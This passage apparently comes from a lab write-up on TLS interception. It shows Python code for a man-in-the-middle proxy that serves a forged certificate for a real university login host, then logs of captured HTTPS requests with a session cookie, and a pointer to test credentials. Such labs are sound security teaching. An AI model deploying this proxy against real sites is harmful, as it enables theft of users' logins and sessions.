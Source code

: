 ```python3
        response = ssock_for_server.recv(2048)
        while response:
            ssock_for_browser.sendall(response) # Forward to browser
            response = ssock_for_server.recv(2048)
            
    ssock_for_browser.shutdown(socket.SHUT_RDWR)
    ssock_for_browser.close()

# SERVER_CERT = './server-certs/mycert.crt'
# SERVER_PRIVATE = './server-certs/mycert.key'
SERVER_CERT = './server-certs/wayf.crt'
SERVER_PRIVATE = './server-certs/wayf.key'


context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)  # For Ubuntu 20.04 VM
# context = ssl.SSLContext(ssl.PROTOCOL_TLSv1_2)      # For Ubuntu 16.04 VM
context.load_cert_chain(SERVER_CERT, SERVER_PRIVATE)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
sock.bind(('0.0.0.0', 443))
sock.listen(5)

while True:
    sock_for_browser, fromaddr = sock.accept()
    try:
        ssock_for_browser = context.wrap_socket(sock_for_browser, server_side=True)
        x = threading.Thread(target=process_request, args=(ssock_for_browser,))
        x.start()
        # print("TLS connection established")
        # data = ssock_for_browser.recv(1024)              # Read data over TLS
        # pprint.pprint("Request: {}".format(data))
        # ssock_for_browser.sendall(html.encode('utf-8'))  # Send data over TLS

        # ssock_for_browser.shutdown(socket.SHUT_RDWR)     # Close the TLS connection
        # ssock_for_browser.close()

    except Exception:
        print("TLS connection fails")
        continue
```

  - Credentials (CTRL + F `j_username=testusername&j_password=testpassword`) - Output from `proxy.py`:

```
root@b43b6c7774cf:/volumes# python3 proxy.py 
Enter PEM pass phrase:
("Request: b'GET /idp/profile/SAML2/Redirect/SSO?execution=e8s2 "
'HTTP/1.1\\r\\nHost: wayf.up.pt\\r\\nUser-Agent: Mozilla/5.0 (X11; Linux '
'x86_64; rv:91.0) Gecko/20100101 Firefox/91.0\\r\\nAccept: '
'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\\r\\nAccept-Language: '
'en-US,en;q=0.5\\r\\nAccept-Encoding: gzip, deflate, br\\r\\nReferer: '
'https://wayf.up.pt/idp/profile/SAML2/Redirect/SSO?execution=e8s1\\r\\nDNT: '
'1\\r\\nConnection: keep-alive\\r\\nCookie: '
'JSESSIONID=DD5BAE7AA71CEEF8674D5B82689951B4\\r\\nUpgrade-Insecure-Requests: '
'1\\r\\nSec-Fetch-Dest: document\\r\\nSec-Fetch-Mode: '
'navigate\\r\\nSec-Fetch-Site: same-origin\\r\\nSec-Fetch-User: '
"?1\\r\\nCache-Control: max-age=0\\r\\n\\r\\n'")
("Request: b'GET /idp/images/logo_compete_final.png HTTP/1.1\\r\\nHost: "
'wayf.up.pt\\r\\nUser-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) '
'Gecko/20100101 Firefox/91.0\\r\\nAccept: '
'image/webp,*/*\\r\\nAccept-Language: en-US,en;q=0.5\\r\\nAccept-Encoding: '
'gzip, deflate, br\\r\\nDNT: 1\\r\\nConnection: keep-alive\\r\\nReferer: '
'https://wayf.up.pt/idp/profile/SAML2/Redirect/SSO?execution=e8s2\\r\\nCookie: '
```
